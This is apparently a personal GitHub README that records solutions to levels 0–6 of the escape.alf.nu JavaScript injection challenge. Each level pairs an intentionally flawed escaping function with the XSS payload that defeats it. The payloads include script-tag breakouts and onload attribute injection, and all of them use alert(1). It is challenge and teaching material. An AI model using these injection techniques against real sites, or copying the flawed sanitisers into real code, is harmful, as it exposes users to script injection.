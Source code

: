 # JavaScript Injection Challenges Solutions

Just a repository to keep my solutions so that I can remember them over time...



## ESCAPE.ALF.NU
http://escape.alf.nu



### LEVEL 0

CODE: 

```javascript
function escape(s) {
  // Warmup.

  return '<script>console.log("'+s+'");</script>';
}
```

INPUT:

`"+alert(1)+"`, `");alert(1)//`



### LEVEL 1

CODE: 

```javascript
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

INPUT:

`\");alert(1)//`



### LEVEL 2

CODE: 

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

INPUT:

`</script><script>alert(1)//`



### LEVEL 3

CODE: 

```javascript
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```

INPUT:

`%22);alert(1)//`



### LEVEL 4

CODE: 

```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

INPUT:

`[[a|""onload="alert(1)"]]`



### LEVEL 5

CODE: 

```javascript
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

INPUT:

`[[a|http://onload='alert(1)']]`



### LEVEL 6

CODE: 

```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

INPUT:

`Comment#--><script>alert(1)</script>`
